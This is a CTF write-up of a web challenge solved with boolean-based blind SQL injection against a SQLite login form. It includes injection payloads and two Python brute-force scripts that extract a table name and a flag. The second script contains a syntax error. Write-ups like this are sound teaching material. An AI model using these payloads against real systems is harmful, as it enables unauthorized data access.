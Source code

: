# B!inded! (Web Challenge)
### First it is my first time to write writeups so it will be nice if you have a negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag , Format : EGCERT{flag}
Points : 200

```

## Enumeration 
 
once i opened the challenge i found this page 

[loginpage](./assets/ieee/B!inded!/login-page)

And we have a hint on the description that tell us we don't need to fuzzing so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , i have got response ```wrong password``` so now i know that we have admin username . 

i tried again with aboelnour and pass and i have got that user not found

so i fired up my burp and send ```a``` in user and ```a``` in pass

And i have noticed that username and password converted to hex and sperated by four zeros 
for example a = 61 in hex so our request will be like this 

[request](./assets/ieee/B!inded!/request)

and the response of this request is

```
user not found 
```


And from the challenge name i got that it might be blind sqli 

so i typed ```aboelnour"``` in username and ```0``` in pass , i have got internal server error.
then i typed ```aboelnour" or 1=1 -- -``` and B00M i have got response ```Wrong Password```  , to make sure i tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

i tried ```admin" select version()-- -``` but i got internal server error 

so i tried ```admin"select sqlite_version()-- -``` , and response was Wrong password , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all , we have SQL Server SUBSTRING() Function , this function use to extracts some characters from a     string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have alos SQL LIKE Operator : you can check it on "https://www.w3schools.com/sql/sql_like.asp"



so if we have table name = users and column name = user we can enum users with query like this 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then i have searched about how to extract tables from SQLitedb and found this payloads in payloadsALLTheThings on github : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version


I got this query to Extract table names

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl in any position  

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

i tried it and i have got User not found so the first char not f 

So i have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so i have wrote python script to got table name 

----

## Exploit code 

first we need to convert our username to hex and concate it with 000061 , 61 is the password
second we need to brute force chars in i place then check if Wrong in response so we got the right char and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i got 
```
Flag table name : Flag_jnk249
```

so now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

i modified my previse script to got the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : https://www.linkedin.com/in/maboelnour12/
#### Facebook : https://www.facebook.com/maboelnour12
